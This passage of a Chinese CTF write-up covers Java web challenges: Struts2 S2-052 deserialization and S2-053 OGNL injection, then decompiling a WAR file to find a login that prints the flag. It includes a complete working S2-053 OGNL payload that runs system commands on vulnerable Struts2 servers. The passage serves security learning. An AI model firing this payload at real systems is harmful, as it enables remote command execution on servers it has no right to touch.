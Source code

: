 > <paramname class="classname"></paramname>
> ```
>
> 所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget
>
> **影响版本**：Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

[github.com/vulhub/vulh…](https://link.juejin.cn/?target=https%3A%2F%2Fgithub.com%2Fvulhub%2Fvulhub%2Fblob%2Fmaster%2Fstruts2%2Fs2-052%2FREADME.zh-cn.md "https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md")

#### S2-053

> Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞

poc

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

![image-20211002101331400](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/47b6ccca198e4e43aaf4ffa677ef220b~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

#### 反编译

提示：看看代码，了解下和php不一样的地方

题目附件一个war包

> jar包和war包都可以看成压缩文件，都可以用解压软件打开，jar包和war包都是为了项目的部署和发布，通常在打包部署的时候，会在里面加上部署的相关信息。这个打包实际上就是把代码和依赖的东西压缩在一起，变成后缀名为.jar和.war的文件，就是我们说的jar包和war包。但是这个“压缩包”可以被编译器直接使用，把war包放在tomcat目录的webapp下，tomcat服务器在启动的时候可以直接使用这个war包。通常tomcat的做法是解压，编译里面的代码，所以当文件很多的时候，tomcat的启动会很慢。
>
> jar包和war包的区别：jar包是java打的包，war包可以理解为javaweb打的包，这样会比较好记。jar包中只是用java来写的项目打包来的，里面只有编译后的class和一些部署文件。而war包里面的东西就全了，包括写的代码编译成的class文件，依赖的包，配置文件，所有的网站页面，包括html，jsp等等。一个war包可以理解为是一个web项目，里面是项目的所有东西。

使用工具[Java decompiler](https://link.juejin.cn/?target=https%3A%2F%2Fgithub.com%2Fjava-decompiler%2Fjd-gui%2Freleases "https://github.com/java-decompiler/jd-gui/releases")反编译class文件

在loginServlet.class文件中存在输出flag

![image-20211002102926161](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5f3707b0b6d9461d8a63a4a53bae544e~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

查看getVipStatus函数

![image-20211002103004671](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c17f8bc2ffb747fbad1f31bccc87f49c~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

payload

```url
/ctfshow/login?username=admin&password=ctfshow
```
